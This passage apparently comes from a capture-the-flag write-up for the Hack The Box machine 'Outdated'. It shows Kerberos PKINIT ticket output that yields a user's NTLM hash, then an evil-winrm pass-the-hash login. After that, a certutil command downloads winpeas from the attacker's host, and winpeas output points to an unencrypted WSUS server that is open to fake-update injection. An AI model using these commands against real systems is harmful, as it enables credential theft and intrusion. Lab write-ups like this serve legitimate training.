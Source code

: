 ```bash
  v2.1.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
      *********************************SNIP*******************************************
      NTVaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  10/8/2022 12:24:55 PM
  EndTime                  :  10/8/2022 10:24:55 PM
  RenewTill                :  10/15/2022 12:24:55 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  ZFjdNOAHmXZtdFcrIm/m2w==
  ASREP (key)              :  A187BB482CB402C93329AE80D660039C

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
Now we can use evil-winrm to PS remote in the machine as sflowers


### Discovering a non TLS WSUS
```bash
evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
Using winpeas, we can see that there is a WSUS server that is running without TLS
```bash
cd $Env:temp
certutil.exe -urlcache -f http://10.10.14.15:8000/winpeas.bat winpeas.bat
```
```bash
 [+] WSUS
   [i] You can inject 'fake' updates into non-SSL WSUS traffic (WSUXploit)
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus
    WUServer    REG_SZ    http://wsus.outdated.htb:8530
```
